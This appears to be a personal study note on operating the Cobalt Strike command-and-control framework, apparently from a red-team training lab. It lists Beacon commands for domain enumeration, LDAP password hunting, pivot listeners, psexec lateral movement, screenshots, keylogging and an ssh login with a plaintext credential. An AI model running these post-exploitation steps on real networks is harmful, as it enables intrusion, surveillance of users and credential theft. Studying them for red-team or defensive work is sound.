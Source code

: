 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[CobaltStrike]]  
___

## Description:  

helpful checklist: https://book.hacktricks.xyz/c2/cobalt-strike

Use `help` to get a list of commands or `help commandname` for more details.

[useful domain enumeration](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/post-exploitation_network-host-enumeration.htm)
```
net domain
net user
net computers
net domain_controllers
```
### Useful BOFs

[Situational Awareness BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)

Can use this to look for passwords in descriptions fields 

`ldapsearch (&(objectClass=User)(objectCategory=Person)) name,samaccountname,description

or find domain admins

`netGroupListMembers "Domain Admins" domainname.local`

Good list here: https://github.com/hrtywhy/BOF-CobaltStrike

Outflank C2 Tool Collection

### Peer-to-Peer Listeners
Allows one beacon to talk to another beacon without having to directly talk to the team server (like setting up a port bind on target).

Go to Listeners, add, choose payload to be either beacon SMB or beacon TCP.

Generate payload for that listener, execute on second target. 

Use `link` and `connect` commands on first target to connect.

`connect <first_target_ip> 4444`

### Pivot Listeners

^4b657f

^118d4f
This is another type of P2P listener that (currently only) uses TCP, but it works in the opposite direction to the regular TCP listener (like setting up a reverse shell).

When you spawn a Beacon payload that uses the TCP listener, that Beacon acts as a TCP server and waits for an incoming connection from an existing Beacon (TCP client).

In scenarios such as GPO abuse, you don't know when the target will actually execute your payload and therefore when you need issue the `connect` command. When a Beacon checks in over a Pivot listener, it will appear in the UI immediately without having to manually connect to it.

To start a Pivot Listener on an existing Beacon, right-click it and select **Pivoting > Listener**.

Once started, your selected port will be bound on that machine.

```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:4444           0.0.0.0:0              LISTENING
```

You can generate payloads for the pivot listener in exactly the same way as other listeners. When executed on a target, you should see the Beacon appear automatically. 

For example:
Go to Attacks, Packages, Windows Executable (S), choose the listener you just set up. Run payload on target.

You can also use 'psexec64'

```
jump psexec64 srv-1 name-of-pivot-listner
```


### Test Local Admin access

^7373ce

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:43:16   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     05/14/2021 15:29:09   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2021 13:12:18   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/14/2021 15:25:37   Program Files
          dir     05/14/2021 15:15:23   Program Files (x86)

```

### Currently logged on users

^b9973d

```
beacon> net logons
Logged on users at \\localhost:

DEV\SRV-1$
DEV\jking
DEV\svc_mssql
```

### Running Processes

```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking
[...snip...]
2656  716   sqlservr.exe                 x64   0           DEV\svc_mssql

```



### Screenshots

^563c93

Taking screenshots of the user’s desktop can be useful just to see what they are doing. It can show what systems or applications they're using, what shortcuts they have, what documents they’re working on and so on.

```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop

```


### KeyLogger

^00b23d

A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive data.
`Keylogger`

All keystrokes can be seen at **View > Keystrokes**.


The keylogger runs as a job that can be stopped with the `jobkill` command.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1

```


### ssh

Beacon also has a built-in ssh client
```
beacon> ssh 10.10.17.12:22 svc_oracle Passw0rd!
[+] established link to child session: 10.10.17.12

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (07:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
